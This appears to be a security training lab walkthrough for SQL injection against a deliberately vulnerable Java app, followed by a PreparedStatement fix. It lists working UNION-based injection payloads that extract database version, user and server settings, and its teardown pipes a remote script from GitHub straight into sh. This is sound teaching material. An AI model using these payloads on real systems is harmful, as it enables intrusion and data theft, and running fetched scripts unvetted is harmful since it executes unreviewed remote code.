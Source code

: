 Attack

Step 1: Open a new terminal and access directory
cd /root/sql-injectionCopy
Step 2: Build the project
mvn packageCopy
Step 3: Now start the app
docker-compose up -dCopy
| Wait for the app to get deployed

Note: If the startup is stuck at JAR scanning, bring down the server and spin up a new one

Step 4: In the browser, access http://<server-ip>:8888/SQLInjection/insecure
Substitute your server-ip here for the placeholder <server-ip>

Note: To fetch server ip type in serverip in a new terminal

Step 5: Create some dummy users

Step 6: In the search bar search for any user you have created based on first name

Step 7: Now test for SQL Injection payload

' or '1=1Copy
| This should return all the users you have created

Step 8: You can also try with these payloads

To get mysql version

a' UNION ALL SELECT null,version(),null,null'Copy
You will see a mysql version under the header First Name

To get the logged in mysql user

a' UNION ALL SELECT null,CURRENT_USER(),null,null'Copy
You will see the current mysql user under the header First Name

To get the current database

a' UNION ALL SELECT null,DATABASE(),null,null'Copy
You will see the database name under the header First Name

Now try other attacks (Each line is one payload)

a' UNION ALL SELECT null,system_user(),null,null'
a' UNION ALL SELECT null,@@GLOBAL.innodb_data_file_path,null,null'
a' UNION ALL SELECT null,@@GLOBAL.bind_address,null,null'
a' UNION ALL SELECT null,@@GLOBAL.version_compile_os,null,null'
a' UNION ALL SELECT null,@@GLOBAL.version_compile_machine,null,null'
a' UNION ALL SELECT null,@@GLOBAL.tls_version,null,null'
a' UNION ALL SELECT null,@@GLOBAL.block_encryption_mode,null,null'
a' UNION ALL SELECT null,@@GLOBAL.default_authentication_plugin,null,null'
a' UNION ALL SELECT null,@@GLOBAL.hostname,null,null'
a' UNION ALL SELECT null,@@GLOBAL.secure_file_priv,null,null'
a' UNION ALL SELECT null,@@GLOBAL.hostname,@@GLOBAL.bind_address,CURRENT_USER()'
a' or '1=1
test' UNION ALL SELECT NULL,NULL,CONCAT(0x7176707a71,IFNULL(CAST(CURRENT_USER() AS CHAR),0x20),0x717a626a71),NULL-- YgfE
test' UNION ALL SELECT NULL,NULL,CONCAT(0x7176707a71,(CASE WHEN ((SELECT super_priv FROM mysql.user WHERE user=0x726f6f74 LIMIT 0,1)=0x59) THEN 1 ELSE 0 END),0x717a626a71),NULL-- SSaoCopy
Defend
Step 1: On the browser, access http://<server-ip>:8888/SQLInjection/secure
Substitute your server-ip here for the placeholder <server-ip>

Step 2: In the search bar search for any user you have created based on first name

Step 3: Now test for SQL Injection payload

' or '1=1Copy
This should not return any value

Here the fix is a PreparedStatement query from line numbers 87 to 90 in the file /root/sql-injection/src/main/java/we45/training/labs/Secure.java

Teardown
Step 1: Change to directory
cd /root/sql-injectionCopy
Step 2: Stop the app
curl -sSL https://raw.githubusercontent.com/we45/xml-files/master/clean-docker.sh | shCopy